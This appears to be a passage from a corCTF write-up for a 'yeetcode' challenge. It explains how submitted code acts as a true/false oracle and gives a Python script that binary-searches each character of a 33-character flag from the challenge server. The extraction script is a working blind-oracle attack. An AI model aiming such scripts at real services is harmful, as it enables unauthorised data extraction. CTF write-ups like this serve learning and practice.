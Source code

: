 ![Yeet Test](/assets/corCTF/yeettest.png)

Nice! Because the flag has to start with "corctf{" we can confirm this
method probably works. I first decided to check the length of the flag using
the same method and the result was 33. Next I made a script to automate the
whole deal.

```
import requests, time

url = 'https://yeetcode.be.ax/yeetyeet'
flag_len = 33

f = open("query.py", "r")
code = f.read()

def query(index, s):
  ret = None
  while ret is None:
    time.sleep(0.5)
    dat = code.format(index, s)
    res = requests.post(url, data=dat).text
    if '"f":0' in res: ret = True
    if '"f":10' in res: ret = False
  return ret

def binsearch(index, lo, hi):
    while lo < hi:
        mid = (hi+lo) // 2
        if query(index, "> '{}'".format(chr(mid))):
            lo = mid+1
        else:
            hi = mid
    return lo

def solve():
    flag = list()
    for i in range(flag_len):
        print(i)
        val = binsearch(i, 33, 126)
        if i == 7:
            print(chr(val))
        flag.append(chr(val))
    return flag
```